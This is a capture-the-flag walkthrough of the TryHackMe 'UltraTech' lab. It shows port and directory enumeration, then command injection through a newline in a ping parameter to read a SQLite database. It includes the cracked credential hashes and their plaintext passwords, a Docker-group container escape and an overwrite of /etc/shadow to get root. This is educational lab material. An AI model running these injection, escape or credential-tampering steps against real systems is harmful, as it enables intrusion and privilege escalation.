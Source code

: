 ```yaml
---
date: 2025-01-03
categories: [CTF, THM]
title: "THM - UltraTech"
tags: ['docker breakout', 'gobuster', 'hashcat', 'nmap', 'privilege escalation', 'rce', 'sqli', 'tryhackme', 'hackthebox', 'immersivelabs', 'thm', 'iml', 'htb']

description: "UltraTech - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# THM - UltraTech

NMAP
```bash
nmap 10.10.200.110 -p- -T5
```

![image1](../resources/336adee1e2a847c7bca8480b6abebc97.png)

```bash
nmap 10.10.200.110 -p 31331 -A
```

![image2](../resources/29ecbbb1da6341daa229d6034f4d8ee3.png)

- Directory bruteforcing:

```bash
gobuster dir -u http://10.10.200.110:8081 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```

![image3](../resources/f6280d75e7ba4a19889faa87d2aee99d.png)

```bash
gobuster dir -u http://10.10.200.110:31331 -w /usr/share/seclists/Discovery/Web-Content/big.txt

```

![image4](../resources/b77d1e1548394ea39d343f7fa0244801.png)

/robots.txt


![image5](../resources/8ec45d670672469f8de522d57b5c73fd.png)

/utech_sitemap.txt


![image6](../resources/a7f0c6ca8c72487bb0ce1977835565fb.png)

/partners.html


![image7](../resources/8ea6a40830084b6488e6907a835d49fd.png)

Got a login page

- Look at traffic in Burp
Looking at  `http://10.10.200.110:31331/partners.html`

The site constantly pings to see if the server is online


![image8](../resources/04192fa6ad5340638b54a7509fbae77a.png)

- Changing the parameters of the GET request we can get RCE

[URL encoding cheatsheet](https://www.eso.org/~ndelmott/url_encode.html)

- Normal space is url encoded as **%20**

- A **line feed** (0x0A) is url encoded as **%0A**
A line feed means moving one line forward. The code is **\n**

- You need to use a line feed character (**\n**) URL encoded because a normal space doesn't work

```bash
GET /ping?ip=10.10.200.110%0Als

```

![image9](../resources/7c03b9d409cc454ba470967f25716186.png)

```bash
GET /ping?ip=10.10.200.110%0Acat%20utech.db.sqlite

```

![image10](../resources/ba3f82b8006d4285ab4f9e60d344cce1.png)

(ignore the M before the names)

Found hashes:

**r00t : f357a0c52799563c7c7b76c1e7543a32**

**admin : 0d0ea5111e3c1def594c1684e3b9be84**

```bash
hash-identifier

```

![image11](../resources/603611db9b3d434cb445ee17cce637fe.png)


![image12](../resources/4da5a4e986fb4298abb1dccf4b8a7d3a.png)

- Crack with hashcat
```bash
hashcat -m 0 -a 0 hashes /usr/share/wordlists/rockyou.txt

```

![image13](../resources/ce79b4f12e29423b8e2f3a9ee2f41500.png)

- Credentials:
**r00t : n100906**

**admin : mrsheafy**

- SSH with r00t

![image14](../resources/2b769bfa5fdc49cc8c8f54a4bab7f530.png)


![image15](../resources/95fc6f33053545219c13463a93df6f13.png)
- We can see we are in the docker group

- **<u>Escape the container:</u>**

```bash
docker images

```

![image16](../resources/e70b9fee7aff4f11b8061dc5b34fc431.png)

- **<u>In Practise:</u>**

- Check gtfobins <https://gtfobins.github.io/gtfobins/docker/> for the command:


![image17](../resources/294a17f538654586a8ece330796ca81d.png)

- If we run this command we'll get an error:

![image18](../resources/3b2e0202b0394cf2b17cd2b78fea5eb7.png)

- So we need to list the available images:

```bash
docker ps -a

```

![image19](../resources/9866d3f6063d4a248c1d6726631f6379.png)

- Change the image name to **bash**

**Option 1 - command:**

```bash
docker run -v /:/mnt --rm -it bash chroot /mnt sh

What this command does is, it creates a new container and mounts the entire ultratech-prod filesystem / to this container

```

![image20](../resources/7d683de391344a229b39081e78df1286.png)

**Option 2 - Command:**

```bash
docker run -v /:/mnt -it bash
```
What this command does is similar to Option 1, it creates a new container and mounts the entire ultratech-prod filesystem **/**. But it mounts it to **/mnt** on the container



![image21](../resources/2f7d8f390a9e4cf9b741c39d94275e78.png)


![image22](../resources/6e29f47e114f41b4a123e28a045d69ef.png)

- **We are root (in the container)**
- We can now read all the root files

- <u>To get root on the host machine (using Option 1):</u>

- On Kali - Make a MD5 hash:

```bash
mkpasswd -m md5 pass123

```

![image23](../resources/8725cc9f13d94b6682a120a9970ceec0.png)

- On the target - in the container (because we're root now)
  
```bash
vi /etc/shadow

```
Press **i** (for insert)

Remove the hash of the root user (second field) and replace with the hash you made


![image24](../resources/5dbfc491ee1545f6b2e3408768a6efd4.png)

```bash
Press ESC

Press :wq

ENTER

```
- exit out of the container
```bash
exit

```
```bash
su root
```
Enter password you made


![image25](../resources/4624215e87734191914682913d6ab4dc.png)


![image26](../resources/59e067c95da64a05be4f3853aefdb08f.png)
